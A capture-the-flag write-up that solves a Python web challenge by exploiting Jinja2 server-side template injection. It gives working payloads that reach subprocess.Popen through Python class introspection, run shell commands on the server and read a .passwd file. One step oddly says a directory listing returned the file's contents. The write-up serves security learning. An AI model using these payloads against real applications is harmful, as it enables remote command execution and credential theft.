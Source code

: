 Solution: Template Injection Vulnerability Exploitation

![serverside](https://github.com/hamid-sheibani/challenges/assets/78083936/e2cea6c3-3cf8-403f-8744-05a59cb459d9)


Overview:
In this challenge, we encountered two input fields requiring template injection testing. Given the Python-based nature of the application, we opted to test for vulnerabilities in Jinja2, a prevalent template engine. Here's how we proceeded:

Step 1: Identifying Jinja2 Functions:
We utilized the following payload to access Jinja2 functions used in the program:


{{ ''.__class__.__mro__[1].__subclasses__() }}

Explanation:

    '': This is an empty string. It's used as a starting point to access attributes and methods.
    .__class__: This accesses the class of an object. In this case, the empty string.
    .__mro__: This accesses the method resolution order (MRO) of the class, which is a tuple of classes the class inherits from.
    [1]: This accesses the second element in the MRO tuple. In Python, the second element of the MRO tuple typically refers to the superclass of the class.
    .__subclasses__(): This retrieves a list of all subclasses of the specified class.

Output of the above payload provides us with all classes. We then copied them into a file and searched for the object class using the following Linux commands:


sed 's/\\,/\\n/g' list.txt > new_list.txt
cat -n new_list.txt | grep object


This helped us identify subprocess.Popen() at index 408.

Step 2: Executing Commands:
To execute commands such as ls -lah and view all files, including hidden ones, we crafted the following payload:


{{ ''.__class__.__mro__[1].__subclasses__()[408]("ls -lah", shell=True, stdout=-1).communicate() }}


Executing this payload returned the contents of the .passwd file, revealing sensitive information.

Step 3: Retrieving the Flag:
Lastly, we utilized a similar payload to read the .passwd file and uncovered the flag:


{{ ''.__class__.__mro__[1].__subclasses__()[408]("cat .passwd", shell=True, stdout=-1).communicate() }}

This returned the flag: Python_SST1_1s_co0l_4nd_mY_p4yl04ds_4r3_1ns4n3!!!

                    


